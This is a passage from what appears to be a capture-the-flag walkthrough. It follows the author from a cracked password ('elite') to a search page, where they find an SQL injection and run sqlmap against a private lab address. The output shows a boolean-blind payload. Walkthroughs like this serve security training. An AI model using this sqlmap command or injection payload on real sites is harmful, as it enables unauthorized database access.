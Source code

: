     print(password)
    print(r.text)

The password was "elite" and by entering it, we land on a new page.

### 420search.php

The `420search.php` page let us query for an user. If we search 'plop' we got:

> Fetched data successfully

If we search nothing we got:

> EMP ID :1
> EMP NAME : ramses
> EMP POSITION :
> --------------------------------
> EMP ID :2
> EMP NAME : isis
> EMP POSITION : employee
> --------------------------------
> Fetched data successfully

This time it is probably a SQL injection as there is no mention against it in
the source code :D. If we introduce a double quote we got:

> Could not get data: You have an error in your SQL syntax; check the manual
> that corresponds to your MySQL server version for the right syntax to use near
> '%"' at line 1

It looks like an SQL injection.

### SQLi

Let us launch [sqlmap](http://sqlmap.org):


    [maggick@rootine sqlmap]$ python2 sqlmap.py -u 'http://192.168.0.20/kzMb5nVYJw/420search.php?usrtosearch=plop'
             _
     ___ ___| |_____ ___ ___  {1.0-dev-e8f87bf}
    |_ -| . | |     | .'| . |
    |___|_  |_|_|_|_|__,|  _|
          |_|           |_|   http://sqlmap.org

    [!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

    [*] starting at 15:25:23

    [15:25:23] [INFO] resuming back-end DBMS 'mysql' 
    [15:25:23] [INFO] testing connection to the target URL
    sqlmap identified the following injection points with a total of 0 HTTP(s) requests:
    ---
    Parameter: usrtosearch (GET)
        Type: boolean-based blind
        Title: OR boolean-based blind - WHERE or HAVING clause (MySQL comment)
        Payload: usrtosearch=-8936" OR 8832=8832#
